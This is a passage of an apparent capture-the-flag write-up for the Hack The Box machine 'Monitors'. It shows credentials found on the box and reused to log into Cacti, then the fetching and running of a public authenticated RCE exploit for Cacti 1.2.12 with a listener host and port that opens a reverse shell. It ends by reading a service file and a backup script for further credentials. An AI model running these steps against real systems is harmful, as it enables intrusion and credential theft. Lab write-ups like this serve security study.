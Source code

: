 <img width="964" height="754" alt="image" src="https://github.com/user-attachments/assets/f1af848c-7748-4347-b467-42d808e06100" />

**Credentials Found:**
- Database User: `wpadmin`
- Database Password: `BestAdministrator@2020!`

### Cacti Access

Using the discovered credentials:
- URL: `http://cacti-admin.monitors.htb/cacti/`
- Username: `admin`
- Password: `BestAdministrator@2020!`

## Privilege Escalation

### Cacti Exploitation

Cacti version 1.2.12 is vulnerable to authenticated remote code execution.


<img width="961" height="818" alt="image" src="https://github.com/user-attachments/assets/29ad7363-8ea7-4c1f-9a51-2652e92b94ad" />


```bash
searchsploit cacti 1.2.12
searchsploit -m 49810
```

<img width="957" height="173" alt="image" src="https://github.com/user-attachments/assets/3539b7f6-518d-4072-ac84-fa9a47b935fe" />

<img width="540" height="205" alt="image" src="https://github.com/user-attachments/assets/0f1e2dac-ec43-4ebe-8fd6-a84ddddb7678" />

**Exploit Execution:**
```bash
python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.50 --lport 9001
```

<img width="957" height="316" alt="image" src="https://github.com/user-attachments/assets/36bbfdaa-0556-4e91-85b9-50cf36754fde" />

**Result:** Gained initial shell as `www-data` user.

<img width="522" height="208" alt="image" src="https://github.com/user-attachments/assets/6c8fdaf3-c124-44b8-bb0b-79c3a60bc230" />

### Lateral Movement to Marcus

Discovery of backup service credentials:

```bash
cat /etc/systemd/system/cacti-backup.service
cat /home/marcus/.backup/backup.sh
```

<img width="721" height="264" alt="image" src="https://github.com/user-attachments/assets/6c35a38b-e6f3-48ad-8c57-6c7d1384ed6d" />

